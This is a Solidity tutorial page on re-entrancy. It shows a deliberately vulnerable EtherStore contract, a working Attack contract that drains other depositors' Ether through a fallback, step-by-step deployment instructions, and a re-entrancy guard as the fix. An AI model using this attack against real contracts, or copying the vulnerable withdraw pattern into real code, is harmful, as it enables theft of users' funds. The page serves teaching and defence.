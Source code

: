 # Re-Entrancy

#### Vulnerability <a href="#vulnerability" id="vulnerability"></a>

Let's say that contract `A` calls contract `B`.

**Reentracy** exploit allows `B` to call back into `A` before `A` finishes execution.

**EtherStore** is a contract where you can deposit and withdraw ETH. This contract is vulnerable to re-entrancy attack. Let's see why.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

contract EtherStore {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}

contract Attack {
    EtherStore public etherStore;

    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }

    // Fallback is called when EtherStore sends Ether to this contract.
    fallback() external payable {
        if (address(etherStore).balance >= 1 ether) {
            etherStore.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw();
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

1. **Deploy** EtherStore;
2. **Deposit** 1 Ether each from Account 1 (Alice) and Account 2 (Bob) into EtherStore ;
3. **Deploy Attack** with address of EtherStore;
4. Call **Attack.attack** sending 1 ether (using Account 3 (Eve)). You will get 3 Ethers back (2 Ether stolen from Alice and Bob, plus 1 Ether sent from this contract).

## **What happened?**&#x20;

Attack was able to call EtherStore.withdraw multiple times before EtherStore.withdraw finished executing.

Here is how the functions were called

* Attack.attack
* EtherStore.deposit
* EtherStore.withdraw
* Attack fallback (receives 1 Ether)
* EtherStore.withdraw
* Attack.fallback (receives 1 Ether)
* EtherStore.withdraw
* Attack fallback (receives 1 Ether)

#### Preventative Techniques <a href="#preventative-techniques" id="preventative-techniques"></a>

* Ensure all state changes happen before calling external contracts
* Use function modifiers that prevent re-entrancy

Here is a example of a re-entracy guard**:**

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

contract ReEntrancyGuard {
    bool internal locked;

    modifier noReentrant() {
        require(!locked, "No re-entrancy");
        locked = true;
        _;
        locked = false;
    }
}
```
